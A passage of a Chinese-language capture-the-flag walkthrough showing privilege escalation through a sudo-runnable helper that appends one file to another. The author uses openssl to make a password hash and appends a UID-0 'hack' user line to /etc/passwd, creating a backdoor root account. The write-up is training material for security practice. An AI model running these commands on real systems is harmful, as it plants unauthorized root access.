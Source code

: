传到本地分析一下，但是好复杂，不管他了，先运行一下再说：

```text
Usage: python test.py read append
```

查一下这个`test.py`：

```
find / -name test.py  2>/dev/null
```

```text
/opt/devstuff/test.py
/usr/lib/python3/dist-packages/setuptools/command/test.py
```

```bash
cat /opt/devstuff/test.py
```

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

传递三个参数，第一个参数是 `./test`，第二个参数以追加方式写进第三个文件里。

直接就想到了创建一个root权限的用户实现登录！

### 创建root用户添加进/etc/passwd

#### 创建用户

```bash
openssl passwd -1 -salt hack hack
# $1$hack$xR6zsfvpez/t8teGRRSNr.
echo 'hack:$1$hack$xR6zsfvpez/t8teGRRSNr.:0:0:root:/bin/bash' > /tmp/hack
sudo ./test /tmp/hack /etc/passwd
cat /etc/passwd
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116491.png" alt="image-20240321211528551" style="zoom:50%;" />

尝试切换用户：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116492.png" alt="image-20240321211615198" style="zoom:33%;" />

切换拿到flag！

